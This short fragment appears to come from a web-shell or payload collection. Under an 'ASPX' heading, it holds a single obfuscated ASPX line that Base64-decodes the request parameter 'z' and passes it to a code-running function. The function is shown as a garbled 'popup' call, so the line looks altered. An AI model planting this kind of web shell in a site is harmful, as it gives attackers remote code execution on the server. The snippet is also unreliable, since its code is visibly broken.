 ### ASPX
~~~

<% popup(popup(System.Text.Encoding.GetEncoding(65001).GetString(System.Convert.FromBase64String("UmVxdWVzdC5JdGVtWyJ6Il0=")))); %>
~~~
